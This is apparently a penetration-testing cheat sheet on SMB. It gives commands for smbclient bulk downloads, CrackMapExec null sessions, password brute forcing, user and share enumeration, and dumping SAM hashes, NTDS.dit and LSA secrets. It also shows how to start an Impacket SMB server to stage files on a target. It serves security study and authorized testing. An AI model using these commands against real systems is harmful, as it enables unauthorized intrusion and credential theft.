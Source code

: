 # SMB

## SMBClient

### Downloading files

Connect using the command below:

```bash
smbclient //<ip>/<share>
```

In interactive mode:

```bash
smb: \> mask ""
smb: \> recurse
smb: \> prompt
smb: \> mget *
```

## CrackMapExec

### Connecting using a null session

```bash
crackmapexec smb <ip> -u '' -p '' --shares
```

### Brute forcing credentials

```bash
crackmapexec smb <ip> -u <usersfile> -p <passwordsfile> | grep -v '\[-\]'
```

### Enumerating shares

```bash
crackmapexec smb <ip> -u <username> -p <password> --shares
```

### Enumerating users

```bash
crackmapexec smb <ip> -u <username> -p <password> --users
```

### Enumerating groups

```bash
crackmapexec smb <ip> -u <username> -p <password> --groups
```

### Dumping SAM hashes

```bash
crackmapexec smb <ip> -u <username> -p <password> --sam
```

### Dumping NTDS.dit

```bash
crackmapexec smb <ip> -u <username> -p <password> --ntds
```

### Dumping LSA Secrets

```bash
crackmapexec smb <ip> -u <username> -p <password> --lsa
```

## Impacket

### Launch an SMB server

```bash
impacket-smbserver -smb2support <share name> <share path>
```

:::tip Moving files to the target machine

You can use the `cmd.exe`to move files to the target machine.

```batch
move <file> \\<ip>\<share>
```

:::
